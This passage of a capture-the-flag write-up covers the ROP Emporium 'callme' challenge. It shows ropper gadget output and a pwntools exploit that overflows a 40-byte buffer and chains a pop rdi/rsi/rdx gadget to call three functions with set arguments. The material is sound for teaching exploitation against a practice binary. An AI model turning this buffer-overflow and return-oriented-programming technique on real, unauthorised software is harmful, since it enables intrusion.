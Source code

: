 ```assembly
        call    mul(int, int, int)
        mov     DWORD PTR [rbp-16], eax
        mov     eax, 0
        leave
        ret
```

With that knowledge we can easily craft a payload to call these functions with proper arguments. Once again, I'll be using `pwntools` with `python2`, but this time we're going to write a proper exploit since using one liners will be pretty tedious. 

In order to get the values into registers used to passing the arguments, we'll need a gadget that will pop values from the stack into these registers. 

```text
[w3ndige@main callme]$ ropper --file callme --search 'pop %'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop %

[INFO] File: callme
0x0000000000401b1c: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401b1e: pop r13; pop r14; pop r15; ret; 
0x0000000000401b20: pop r14; pop r15; ret; 
0x0000000000401b22: pop r15; ret; 
0x00000000004018ef: pop rbp; mov edi, 0x602078; jmp rax; 
0x0000000000401b1b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401b1f: pop rbp; pop r14; pop r15; ret; 
0x0000000000401900: pop rbp; ret; 
0x0000000000401ab0: pop rdi; pop rsi; pop rdx; ret; 
0x0000000000401b23: pop rdi; ret; 
0x0000000000401ab2: pop rdx; ret; 
0x0000000000401b21: pop rsi; pop r15; ret; 
0x0000000000401ab1: pop rsi; pop rdx; ret; 
0x0000000000401b1d: pop rsp; pop r13; pop r14; pop r15; ret; 
```

At address `0x0000000000401ab0` we have a great candidate that, with one gadget, will pop the values from the stack into these registers. Let's use it. 





```python2
from pwn import *

def add_arguments(payload):
    payload += p64(0x0000000000401ab0) # Address of gadget pop rdi; pop rsi; pop rdx; ret;
    payload += p64(0x1)
    payload += p64(0x2)
    payload += p64(0x3)
    return payload

offset = cyclic(40) # 40 bytes used to overflow.
payload = offset
payload = add_arguments(payload)
payload += p64(0x00401850) # Address of callme_one function.
payload = add_arguments(payload)
payload += p64(0x00401870) # Address of callme_two function.
payload = add_arguments(payload)
payload += p64(0x00401810) # Address of callme_three function.

sh = process('callme')
sh.recv()
sh.sendline(payload)
output = sh.recvall()
```